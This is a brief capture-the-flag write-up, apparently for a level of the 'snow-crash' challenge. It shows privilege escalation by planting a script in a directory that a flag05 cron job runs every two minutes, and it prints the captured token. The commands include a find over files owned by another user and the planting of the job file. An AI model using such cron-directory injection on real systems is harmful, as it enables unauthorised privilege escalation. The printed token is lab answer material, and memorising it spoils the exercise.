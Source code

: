 Same than level00,we don't have anything in the current path

So i've used the same strategy

                    find -O3 / -user "flag05" 2>/dev/null

I've found something in /usr/sbin/openarenaserver
it's a bash script that search i in /opt/openarenaserver

let's create a fille i in /opt/openarenaserver that contains getflag


```echo "getflag > /tmp/flag" > /opt/openarenaserver/i```

```sh /usr/sbin/opnarenaserver ```

Nope, incorrect flag

in /var/mail/level05, we have a crontab script:
-   */2 * * * * su -c "sh /usr/sbin openarenaserver" - flag05
Every 2 min, it will launch this job in background with the user flag05. 
After doing my echo, i just have to wait until my file disapear and cat /tmp/flag 

Check flag.Here is your token : viuaaale9huek52boumoomioc
